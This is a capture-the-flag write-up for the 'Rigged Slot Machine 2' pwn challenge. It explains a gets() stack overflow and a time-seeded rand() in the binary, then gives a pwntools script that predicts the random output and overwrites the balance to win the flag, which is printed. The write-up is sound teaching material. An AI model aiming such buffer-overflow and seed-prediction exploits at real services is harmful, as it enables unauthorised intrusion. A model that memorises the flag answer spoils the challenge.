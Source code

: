 https://ctftime.org/event/2446

# Rigged Slot Machine 2 (pwn)

The casino fixed their slot machine algorithm - good luck hitting that jackpot now! 🤭

nc riggedslot2.ctf.intigriti.io 1337

## Analysis

`main` @ `0x001014ea`
- Calls `srand(time(0))` ensuring that calls to `rand` will be predictable
- Calls `enter_name` with a buffer on the stack that is at a lower address than the balance
- After each call to `play` checks if the balance is `0x14684c`
    - If it is call `payout`

`enter_name` @ `0x00101480`
- Calls `gets` allowing us to overwrite the balance on the stack of the outer frame

`payout` @ `0x0010128c`
- Checks our balance is `0x14684c`
    - Prints the flag if it is

`play` @ `0x0010133b`
- Modifies our balance according to a supplied bet and the output of `rand`

### Getting libc

To recover the same version of libc as the remote I used `ret`'s `libc` command using the `ubuntu:23.04` tag from the `Dockerfile`:

```bash
$ ret libc ubuntu:23.04
...
$ sha256sum ./ubuntu:23.04.libc.so.6
c3a14ee6eb14cdb81f6bbd0ab94ca138597db93d5c8e7bafb5609d2f94ee0068  ./ubuntu:23.04.libc.so.6
```

https://github.com/rerrorctf/ret?tab=readme-ov-file#-libc

## Solution

1) Overwrite the balance on the stack taking care to select a value such that after playing one round of the game the resulting balance will be equal to `0x14684c`

```python
#!/usr/bin/env python3

from pwn import *
import ctypes

context.log_level = "debug"
elf = ELF("./rigged_slot2", checksec=False)
context.binary = elf

libc = ctypes.CDLL("./ubuntu:23.04.libc.so.6")

#p = elf.process()
#p = elf.debug(gdbscript="")
p = remote("riggedslot2.ctf.intigriti.io", 1337)

libc.srand(libc.time(0))

# have to play at least once...
# ... and the resulting balance should be equal to 0x14684c

bet = 69
iVar2 = libc.rand() % 1000
local_c = 0

if iVar2 == 0:
    local_c = 10
elif iVar2 < 5:
    local_c = 5
elif iVar2 < 10:
    local_c = 3
elif iVar2 < 0xf:
    local_c = 2
elif iVar2 < 0x1e:
    local_c = 1

winnings = bet * local_c - bet
starting_balance = 0x14684c - winnings

payload = b""
payload += b"A" * 0x14
payload += p32(starting_balance)
p.sendlineafter(b"Enter your name:", payload)

p.sendlineafter(b"per spin): ", str(69).encode())

p.interactive() # INTIGRITI{1_w15h_17_w45_7h15_345y_1n_v3645}
```

## Flag
`INTIGRITI{1_w15h_17_w45_7h15_345y_1n_v3645}`

smiley 2024/11/16
